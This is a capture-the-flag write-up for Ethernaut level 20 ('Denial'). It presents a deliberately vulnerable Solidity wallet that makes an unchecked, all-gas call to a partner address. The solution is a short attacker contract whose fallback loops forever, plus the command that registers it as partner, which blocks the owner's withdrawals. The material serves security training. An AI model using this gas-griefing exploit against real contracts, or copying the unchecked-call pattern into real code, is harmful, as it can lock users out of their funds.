 # Level 20 - Denial

### Objective

The objective of this level is as follows:

1. This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
2. If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Solution

Solution inspired by [this_post](https://medium.com/@this_post/ethernaut-20-denial-writeups-17ed0bdc8857):

First, create a contract with an infinite loop that consumes all forwarding gas:

```
contract Solve {

    fallback() payable external {
        while(true){

        }
    }

}
```

Finally, set the `partner` address as the `Solve` contract address:

```
await contract.setWithdrawPartner(SOLVE_CONTRACT_ADDRESS)

```

Done!
